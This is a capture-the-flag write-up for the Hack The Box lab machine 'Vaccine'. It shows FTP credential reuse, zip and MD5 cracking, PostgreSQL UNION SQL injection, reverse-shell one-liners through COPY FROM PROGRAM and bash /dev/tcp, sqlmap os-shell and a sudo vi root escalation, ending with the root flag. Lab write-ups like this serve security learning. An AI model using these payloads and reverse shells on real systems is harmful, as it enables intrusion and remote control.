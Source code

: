 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/
![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_10_35.png)

	"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789

// login to http://10.10.10.46/ with credentials 'admin : qwerty789' get us to car catatlog with a search bar
when i search for 'a' i can see that url changes to http://10.10.10.46/dashboard.php?search=a when i try to insert quots i get an error:

	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// now we can see that the server is vulnerable for sql injection
source: https://portswigger.net/web-security/sql-injection/union-attacks
// when we got the Error 
	
	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// we can see that we have a table called 'cars', to find how many columns are in that table we can inject :

	' ORDER BY 1--
// and increase the number(1 to 2 and 3 ...) 
// all works till ' ORDER BY 5--

	ERROR: syntax error at or near "BY5" LINE 1: Select * from cars where name ilike '%' ORDER BY5--%' ^
// now we will submitting a series of UNION SELECT payloads specifying a different number of null

    ' UNION SELECT 'a', NULL, NULL, NULL, NULL -- : 
	ERROR: invalid input syntax for integer: "a" LINE 1: ...ect * from cars where name ilike '%' UNION SELECT 'a', NULL,... ^
    ' UNION SELECT NULL, 'a', NULL, NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, 'a', NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, 'a', NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, NULL, 'a' -- : VALID

// Insert:

	' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_40_43.png)
// set a listiner

	$ rlwrap nc -lvnp 1444
// Insert:

	'; CREATE TABLE cmd_exec(cmd_output text); --
	'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.16.7/1444 0>&1'''; --
// we got a shell!

	$ rlwrap nc -lvnp 1444
	listening on [any] 1444 ...
	connect to [10.10.16.7] from (UNKNOWN) [10.10.10.46] 41756
	bash: cannot set terminal process group (11360): Inappropriate ioctl for device
	bash: no job control in this shell
	postgres@vaccine:/var/lib/postgresql/11/main$ whoami
	whoami
	postgres
	postgres@vaccine:/var/lib/postgresql/11/main$ 

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_13_41_32.png)

// There is another way to automate this process with using sqlmap tool

	$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --dump-all --tamper=space2comment
// and then

	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell



---------------------------------------------------------
// upgrade connection with nc listiner on port 1234
bash -c 'bash -i >& /dev/tcp/10.10.16.66/1234 0>&1'

// upgrade nc shell
SHELL=/bin/bash script -q /dev/null


postgres@vaccine:/var/www/html$ cat dashboard.php

try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}


-------------------1 way--------------
postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
P@s5w0rd!
------------------2 way ---------------
ssh open so....
ssh postgres@10.10.10.46
P@s5w0rd!


// add root privilleged configuration file
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
// add
:!/bin/bash


root@vaccine:~# cat root.txt
dd6e058e814260bc70e9bbdef2715849
